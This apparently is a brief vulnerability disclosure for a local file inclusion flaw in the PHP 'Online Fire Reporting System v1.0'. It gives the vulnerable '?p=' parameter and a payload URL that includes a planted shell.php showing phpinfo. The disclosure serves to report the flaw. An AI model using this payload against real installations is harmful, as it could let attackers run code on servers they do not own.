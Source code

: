 # Online Fire Reporting System v1.0 by oretnom23 has The local file contains

vendor: https://www.sourcecodester.com/php/15346/online-fire-reporting-system-phpoop-free-source-code.html

Vulnerability File: ip/ofrs/?p=shell

Vulnerability location: ip/ofrs/?p=, p

Payload: ip/ofrs/?p=shell

![image](https://user-images.githubusercontent.com/54017627/170816433-6fbef929-d44d-4fd0-9d7d-2c4f6d838342.png)

We create a shell.php under the PHP file of the root of the website, which reads "<? phpinfo ();? > "

![image](https://user-images.githubusercontent.com/54017627/170479151-b4aabc1a-fdbd-45d2-8f5a-248d37092584.png)

And visit http://ip/ofrs/?p=,p You can see that phpinfo has been successfully included

![image](https://user-images.githubusercontent.com/54017627/170816416-0d91e581-109f-4b34-9363-3c0165765890.png)

